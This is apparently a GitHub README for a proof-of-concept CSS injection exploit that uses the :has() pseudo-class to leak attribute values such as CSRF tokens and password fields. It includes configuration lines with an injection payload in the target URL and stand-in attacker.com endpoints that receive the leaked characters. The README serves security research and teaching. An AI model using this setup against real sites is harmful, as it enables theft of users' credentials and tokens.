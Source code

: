 # PoC - CSS Injection : Use of the pseudo-class has()

__Read this in other languages:__ [English](README.md), [Français](README.fr.md)

## Description

PoC to exploit a CSS injection using the pseudo-class has() to retrieve the value of an attribute of an HTML element.

## Prerequisites

- The vulnerable site must be able to be iframed, see `X-Frame-Options` and `frame-ancestors` HTTP headers.
- There are some limitations when the value to be retrieved starts with a number. The target value must then be surrounded by single or double quotes and exploitation may not be possible if these characters are filtered by the application.
- Does not work on Firefox (nor on IE)

## Configuration

Before using the PoC, adapt the following values:

```
/* ==== CONFIG ==== */
// Full URL of the vulnerable application
const RURL = "http://vulnerable.com/targets/hidden.php?color=red;}";  

// URL of the attacker's machine to retrieve the already known characters
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";

// URL of the attacker's machine to indicate a new identified character
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";

// Name of the targeted HTML element
const HTML_ELEMENT_NAME = "input";

// Name of the targeted HTML attribute
const HTML_ATTRIBUTE_NAME = "name";

// NAME value of the targeted HTML attribute
const HTML_ATTRIBUTE_VALUE = "csrf-token";

// When the characters "'" and """ are filtered by the application it's not possible to retrieve a value starting with a number
const isQuoteFiltered = true;
```

## Usage

### Retrieving a value from a password field

```javascript
const RURL = "http://vulnerable.com/targets/password.php?color=red;}";  
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";
const HTML_ELEMENT_NAME = "input";
const HTML_ATTRIBUTE_NAME = "name";
const HTML_ATTRIBUTE_VALUE = "password";
const isQuoteFiltered = true;
```

### Retrieving a value from a hidden field

```javascript
const RURL = "http://vulnerable.com/targets/hidden.php?color=red;}";  
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";
const HTML_ELEMENT_NAME = "input";
const HTML_ATTRIBUTE_NAME = "name";
const HTML_ATTRIBUTE_VALUE = "csrf-token";
const isQuoteFiltered = true;
```

## Demo

### Retrieving a value from a password field



### Retrieving a value from a hidden field

